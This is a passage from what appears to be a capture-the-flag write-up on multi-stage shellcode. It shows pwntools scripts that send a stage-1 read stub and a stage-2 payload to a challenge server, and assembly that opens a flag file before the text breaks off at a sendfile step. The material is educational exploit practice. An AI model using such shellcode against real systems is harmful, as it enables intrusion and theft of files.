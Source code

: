 The second shellcode is the same shellcode used in challenge 1.

```python
shellcode1 = asm(f""" # stage 1 shellcode goes here """)
shellcode2 = asm(f""" # stage 2 shellcode goes here """)

p = remote("0.cloud.chals.io", 0000)
print_clean(p.recvuntil(b"Reading 0x18 bytes from stdin.\n"))
p.sendline(shellcode1)
pause(1)
p.send(shellcode2)

print_clean(p.readrepeat())
```

In order to successfully execute a multi-stage shellcode we also need to modify the boilerplate.py file since the two scripts must be in different payloads.
As shown above, we create another variable in which we type our stage 1 shellcode and we send it through before the actual payload containing the stage 2 shellcode; between the two payloads we want to wait 1 second for the stage 1 shellcode to execute so we add "pause(1)".

```python
from pwn import *

context.arch = "amd64"
#context.log_level = debug

def print_clean(data):
    data = data.split(b"\n")
    for i in data:
        print(i.decode("latin-1"))

# shellcode goes here
setup = asm(f"""

.intel_syntax noprefix
.global _start

_start:
main:
push 0
push 0
pop rdi
lea rsi, [rip+10]
mov rdx, 250
pop rax
syscall

""")

shellcode = asm(f"""

.global _start
.intel_syntax noprefix

_start:

open:
lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

sendfile:
```